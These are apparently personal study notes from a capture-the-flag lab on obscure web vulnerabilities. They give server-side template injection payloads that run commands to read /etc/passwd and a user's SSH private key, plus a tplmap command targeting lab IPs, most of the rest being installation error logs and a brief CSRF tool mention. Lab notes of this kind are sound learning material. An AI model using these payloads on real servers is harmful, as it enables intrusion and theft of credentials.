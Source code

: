 # ZTH: Obscure Web Vulns
# Data: 03.10.2020, 04.10.2020

IP:`10.10.219.86`, `10.10.52.86`
-------------------


## SSTI - Server Side Template Injection
IP:`10.10.219.86`, `10.10.52.86`

>usually you can test for SSTI using {{2+2}} as a test

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#basic-injection

{{config.__class__.__init__.__globals__['os'].popen(cat /etc/passwd).read()}}

{{ ''.__class__.__mro__[2].__subclasses__()[40]()('/home/test/.ssh/id_rsa').read()}}


---
tplmap - Template mapper

./tplmap.py -u http://10.10.10.10:5000/ -d 'noot' --os-cmd "cat /etc/passwd"

---
test

error with tplmap :(
///
$pip3 install -r requirements.txt 
Collecting PyYAML==5.1.2
  Using cached PyYAML-5.1.2.tar.gz (265 kB)
Collecting certifi==2018.10.15
  Using cached certifi-2018.10.15-py2.py3-none-any.whl (146 kB)
Requirement already satisfied: chardet==3.0.4 in /usr/lib/python3/dist-packages (from -r requirements.txt (line 3)) (3.0.4)
Collecting idna==2.8
  Using cached idna-2.8-py2.py3-none-any.whl (58 kB)
Collecting requests==2.22.0
  Using cached requests-2.22.0-py2.py3-none-any.whl (57 kB)
Collecting urllib3==1.24.1
  Using cached urllib3-1.24.1-py2.py3-none-any.whl (118 kB)
Collecting wsgiref==0.1.2
  Using cached wsgiref-0.1.2.zip (37 kB)
    ERROR: Command errored out with exit status 1:
     command: /usr/bin/python3 -c 'import sys, setuptools, tokenize; sys.argv[0] = '"'"'/tmp/pip-install-cn_q89to/wsgiref/setup.py'"'"'; __file__='"'"'/tmp/pip-install-cn_q89to/wsgiref/setup.py'"'"';f=getattr(tokenize, '"'"'open'"'"', open)(__file__);code=f.read().replace('"'"'\r\n'"'"', '"'"'\n'"'"');f.close();exec(compile(code, __file__, '"'"'exec'"'"'))' egg_info --egg-base /tmp/pip-pip-egg-info-ih5e3n8_                                                                                                    
         cwd: /tmp/pip-install-cn_q89to/wsgiref/                                                      
    Complete output (8 lines):                                                                        
    Traceback (most recent call last):                                                                
      File "<string>", line 1, in <module>                                                            
      File "/tmp/pip-install-cn_q89to/wsgiref/setup.py", line 5, in <module>                          
        import ez_setup                                                                               
      File "/tmp/pip-install-cn_q89to/wsgiref/ez_setup/__init__.py", line 170                         
        print "Setuptools version",version,"or greater has been installed."                           
              ^                                                                                       
    SyntaxError: Missing parentheses in call to 'print'. Did you mean print("Setuptools version",version,"or greater has been installed.")?                                                                 
    ----------------------------------------                                                          
ERROR: Command errored out with exit status 1: python setup.py egg_info Check the logs for full command output.   

----

$./tplmap.py -u http://10.10.52.86 -d 'name' --os-cmd 'cat /etc/passwd'
Traceback (most recent call last):
  File "./tplmap.py", line 3, in <module>
    from core import checks
  File "/opt/tplmap/core/checks.py", line 1, in <module>
    from plugins.engines.mako import Mako
  File "/opt/tplmap/plugins/engines/mako.py", line 1, in <module>
    from plugins.languages import python
  File "/opt/tplmap/plugins/languages/python.py", line 2, in <module>
    from core.plugin import Plugin
  File "/opt/tplmap/core/plugin.py", line 3, in <module>
    from utils.loggers import log
  File "/opt/tplmap/utils/loggers.py", line 4, in <module>
    import utils.config
  File "/opt/tplmap/utils/config.py", line 3, in <module>
    import yaml
ImportError: No module named yaml

///

luckly i found flag online ...


## CSRF - Cross Site Request Forgery
IP:``

install xsrfprobe: `pip3 install xsrfprobe`
to run: `/home/$USER$/.local/bin/xsrfprobe`




